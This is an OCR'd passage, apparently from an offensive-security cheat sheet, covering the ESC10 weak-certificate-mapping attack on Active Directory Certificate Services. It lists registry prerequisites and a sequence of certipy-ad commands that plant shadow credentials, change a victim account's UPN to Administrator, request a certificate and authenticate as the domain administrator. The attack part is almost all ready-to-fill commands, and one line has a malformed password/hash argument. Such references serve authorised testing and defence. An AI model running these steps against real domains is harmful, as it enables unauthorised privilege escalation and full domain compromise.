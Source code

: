 ```console
$ certipy-ad auth -pfx <FILE>.pfx -domain '<DOMAIN>' -username '<USERNAME>@<DOMAIN>'
```

### ESC10: Weak Certificate Mappings

#### Prerequisistes

- Case 1 : `StrongCertificateBindingEnforcement` set to `0`
	- `HKEY_LOCAL_MACHINE\SYSTEM\CurrentControlSet\Services\Kdc StrongCertificateBindingEnforcement`. Default value `1`, previously `0`
	- `GenericWrite` over any account A to compromise any account B

- Case 2 : `CertificateMappingMethods` contains `UPN` bit `(0x4)`
	- `HKEY_LOCAL_MACHINE\System\CurrentControlSet\Control\SecurityProviders\Schannel CertificateMappingMethods`. Default value `0x18` (`0x8` | `0x10`), previously `0x1F`
	- `GenericWrite` over any account A to compromise any account B without a `userPrincipalName` property (machine accounts and built-in domain administrator Administrator)

#### Usage

##### Case 1

```console
$ certipy-ad shadow auto -username '<USERNAME>@<DOMAIN>' -password '<PASSWORD>' -account '<USERNAME>'
```

```console
$ certipy-ad account update -username '<USERNAME>@<DOMAIN>' -password '<PASSWORD>' -user '<USERNAME>' -upn 'Administrator@<DOMAIN>'
```

```console
$ certipy-ad req -ca '<CA>' -username '<USERNAME>@<DOMAIN>' -hashes '<HASH>'
```

```console
$ certipy-ad account update -username '<USERNAME>@<DOMAIN>' -password '<PASSWORD>' -user '<USERNAME>' -upn '<USERNAME>@<DOMAIN>'
```

```console
$ certipy-ad auth -pfx Administrator.pfx -domain '<DOMAIN>'
```

##### Case 2

```console
$ certipy-ad shadow auto -username '<USERNAME>@<DOMAIN>' -password '<PASSWORD>' -account '<USERNAME>'
```

```console
$ certipy-ad account update -username '<USERNAME>@<DOMAIN>' -password '<PASSWORD>' -user '<USERNAME>' -upn '<RHOST>@<DOMAIN>'
```

```console
$ certipy-ad req -ca 'CA' -username '<USERNAME>@<DOMAIN>' -password -hashes '<HASH>'
```
